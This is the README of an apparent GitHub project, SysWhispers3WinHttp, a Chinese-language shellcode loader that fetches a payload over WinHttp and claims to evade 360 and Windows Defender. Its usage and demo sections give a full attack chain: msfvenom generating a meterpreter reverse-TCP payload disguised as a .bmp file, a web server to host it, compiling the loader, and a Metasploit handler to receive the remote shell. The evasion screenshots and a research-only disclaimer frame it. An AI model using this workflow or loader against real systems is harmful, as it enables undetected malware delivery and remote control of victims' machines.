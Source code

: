 # SysWhispers3WinHttp
SysWhispers3WinHttp 基于SysWhispers3项目增添WinHttp分离加载功能并使用32位GCC进行编译，文件大小14KB，可免杀绕过360核晶防护与Defender。

## 0x01 免责声明：

该项目仅供安全研究使用，禁止使用该项目进行违法操作，否则由使用者承担全部法律及连带责任。

## 0x02 使用：

```
// 1. 使用msfvenom生成shellcode（或使用CobaltStrike生成Stageless之shellcode）
msfvenom -p windows/meterpreter_reverse_tcp lhost=192.168.1.104 lport=4444 -f raw -o test.bmp

// 2. 使用python3开启Web服务（或使用CobaltStrike之Host File功能）
python3 -m http.server

// 3. 修改SysWhispers3WinHttp.c 第40行IP地址并使用32位GCC进行编译
gcc .\syscalls.c .\SysWhispers3WinHttp.c -o .\SysWhispers3WinHttp.exe -masm=intel -fpermissive -w -s -lwinhttp
```

注：32位GCC下载地址为https://master.dl.sourceforge.net/project/mingw-w64/Toolchains%20targetting%20Win32/Personal%20Builds/mingw-builds/6.4.0/threads-win32/sjlj/i686-6.4.0-release-win32-sjlj-rt_v5-rev0.7z?viasf=1


## 0x03 演示：

```
msfconsole
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```

360核晶截图
![360demo](https://user-images.githubusercontent.com/128464183/226871711-0ba4d10c-188e-46de-8c4c-fd7b3693f604.PNG)

Defender截图
![WDdemo](https://user-images.githubusercontent.com/128464183/227820977-8ae3dd14-76f4-4076-85a4-91ff2702ec61.PNG)

微步云沙箱截图
![image](https://user-images.githubusercontent.com/128464183/227158488-1e5434e8-1532-436d-974f-a320d754691e.png)

## 0x04 参考：
https://github.com/klezVirus/SysWhispers3

https://learn.microsoft.com/zh-cn/windows/win32/api/winhttp/nf-winhttp-winhttpconnect
